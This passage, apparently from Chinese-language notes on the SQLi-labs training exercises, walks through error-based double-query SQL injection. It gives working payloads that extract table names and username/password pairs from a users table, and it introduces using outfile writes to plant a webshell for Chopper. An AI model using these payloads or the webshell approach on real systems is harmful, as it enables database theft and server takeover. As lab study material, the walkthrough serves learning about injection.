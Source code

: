 payload:

`?id=0' union select null,count(*),concat((select table_name from information_schema.columns where table_schema='security'),floor(rand()*2))as a from information_schema.columns group by a--+`

但是呢，如图，我们现在又遇到了新的问题，就是返回的结果不止一行，但是要求只显示一行的结果，我们这里就可以利用SQL语句LIMIT属性对返回的结果进行行限制


[![0j1BOP.jpg](https://s1.ax1x.com/2020/10/18/0j1BOP.jpg)](https://imgchr.com/i/0j1BOP)

payload:

`?id=0' union select null,count(*),concat((select table_name from information_schema.columns where table_schema='security' limit 0,1),floor(rand()*2))as a from information_schema.columns group by a--+`


结果回显


[![0j1wQI.jpg](https://s1.ax1x.com/2020/10/18/0j1wQI.jpg)](https://imgchr.com/i/0j1wQI)

接着，用同样的方法对显示位置进行选择，直到对所有的表进行输出一遍。

找到users表，对其中的内容进行输出

找到跟用户有关的两个关键字段username和password，然后选中进行输出，但是只能输出一条结果

`id=0' union select null,count(*),concat((select concat('|',username,'~',password) from users limit 0,1),floor(rand()*2) as a from information_schema.columns group by a--+`



***
# less 6(双查询注入双引号闭合字符型)
***

## 原理

仍旧是双查询注入，只不过是改变了闭合方式

## 步骤

通体思路，检查注入点注入类型，检查显示字段数，爆库名表命字段，输出

[![0j1HkF.jpg](https://s1.ax1x.com/2020/10/18/0j1HkF.jpg)](https://imgchr.com/i/0j1HkF)

***

# less7(outfile文件写入字符型)
***
## 原理

对服务器上的文件有写入的权限，可以写入小马用菜刀连接从而获取数据库权限
